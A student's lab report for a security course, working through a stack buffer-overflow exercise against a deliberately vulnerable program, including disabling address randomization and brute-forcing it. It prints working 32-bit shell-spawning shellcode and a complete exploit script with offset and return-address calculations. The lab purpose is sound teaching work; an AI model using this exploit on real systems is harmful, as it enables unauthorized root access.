

## Assignment 2

### Comp 4580

#### Ryan Dotzlaw - 

Do task 1, 2, 3, and 8.

### Task 1: Getting Familiar With Shellcode

For this task, compile and execute the 32-bit and 64-bit versions of the given `call_shelcode.c`.

Compiling and running `a32.out` gives:


Compiling and running `a64.out` gives:


From the results of both `a32.out` and `a64.out` we can see that executing them gives a root shell to the one who ran them.


### Task 2: Understanding the Vulnerable Program

In given `code/Makefile` set `L1` to `254` according to assignment instructions.

Then just compile the code using the given `Makefile`


### Task 3: Launching an Attack on a 32-bit Program

#### Preparing for the Attack

We have to disable some countermeasures built into Linux if we want to succeed with this basic buffer overflow.

Disable address randomization with the following command:

```
sudo sysctl -w kernel.randomize_va_space=0
```

#### Investigating for the Attack

We need to gather some information before we can construct our payload.

The program we're going to be attacking is `stack-L1`, so we'll use the debug binary for it that we compiled to gather information about the stack.

We do this by using `gdb` and creating a breakpoint at the `bof` function.


Then stepping forwards once with `next` and getting the value in the `$ebp` register.


In actual execution the frame pointer will be larger, since `gdb` pushes some additional stuff onto the stack.

Without `gdb` the stack wouldn't have grown as much, so we need to keep this in mind when creating the payload.

Then we also want to get the address of the buffer variable.


The distance between the buffer address and the frame address is:

```
0xffffcb18 - 0xffffca12 = 0x106 (262 in decimal)
```


#### Preparing the Payload

We'll construct the payload in `badfile` using the given `exploit.py`, but we'll have to do some modifications.

`exploit.py` creates the file `badfile` by constructing a 517 `NOP` long string, then by overwriting part of it with the shellcode, and then another part with the return address.

The challenge comes from finding where to put the return address and the shellcode.

Modifying the `shellcode` variable to contain the following:

```
"\x31\xc0" # xorl %eax,%eax
"\x50" # pushl %eax
"\x68""//sh" # pushl $0x68732f2f
"\x68""/bin" # pushl $0x6e69622f
"\x89\xe3" # movl %esp,%ebx
"\x50" # pushl %eax
"\x53" # pushl %ebx
"\x89\xe1" # movl %esp,%ecx
"\x99" # cdq
"\xb0\x0b" # movb $0x0b,%al
"\xcd\x80" # int $0x80
```

This defines the code that will launch the root shell.

Next we need to define where the shellcode will be placed using the `start` variable.

The simplest solution is to just place the shellcode at the very end, so we have a larger area of `NOP` instructions to hit with our return address.

So we set start to:

```
517 - len(shellcode)
```

Then we need to place the correct return address in the proper spot to overwrite the original return address.

From our investigation with `gdb`, we know the difference between where the buffer starts in memory and where the frame starts is `0x106`, so the return address is `+4` above that.

So our address needs to be placed at an offset of `0x10A`, so we set offset to `0x10A`.

Then we need to set value to overwrite the original return address with.

Because of our `NOP` sled, we can undershoot our shellcode by a decent bit and still reach it, but we can't overshoot or the exploit will fail.

We also need to remember that the address given to us was gotten when we were using `gdb`, which effects the position of the address by making it lower than it would be in normal execution (because the stack grows down).

To start with, I'll use the address we got plus `200`, setting the `ret` to:

```
0xffffcb18 + 200
```

View the full code for `exploit.py` in the appendix.

Then we generate `badfile` by running `python3 exploit.py`, and then we just have to run `./stack-L1`, getting this as a result:



Meaning we've successfully executed arbitrary code using a buffer overflow.

### Task 8: Defeating Address Randomization

Now we need to re-enable address randomization with the following command:

```
sudo sysctl -w kernel.randomize_va_space=2
```

From there we can just run the given `brute_force.sh` which will keep running until we exhaust all the addresses and succeed.

This is only possible because the `stack-L1` program is 32-bit and there are only 2^19 addresses.

For 64-bit programs, the time it takes to do an attack like this is not feasible.

The result of running the brute force attack is as follows:


It didn't take too long for it to succeed, only around 2 minutes with a total of 31,304 tries.

Considering there is a total of 524,288 (2^19) addresses, I only went through roughly a 16th of the possible addresses.

That means that I had good luck, as it could've taken potentially 16 times longer.

Realistically since the memory is structured the return address doesn't really have 524,288 potential positions, so a worst case wouldn't take you 32 minutes.

Even then, 32 minutes for a rootshell doesn't seem like a daunting amount of time for a hacker trying to gain access to a rootshell

### Appendix

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
"\x31\xc0" # xorl %eax,%eax
"\x50" # pushl %eax
"\x68""//sh" # pushl $0x68732f2f
"\x68""/bin" # pushl $0x6e69622f
"\x89\xe3" # movl %esp,%ebx
"\x50" # pushl %eax
"\x53" # pushl %ebx
"\x89\xe1" # movl %esp,%ecx
"\x99" # cdq
"\xb0\x0b" # movb $0x0b,%al
"\xcd\x80" # int $0x80
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)             # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb18 + 200   # + 8 works with gdb     # Change this number 
offset = 0x10A            # Distance + 4 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```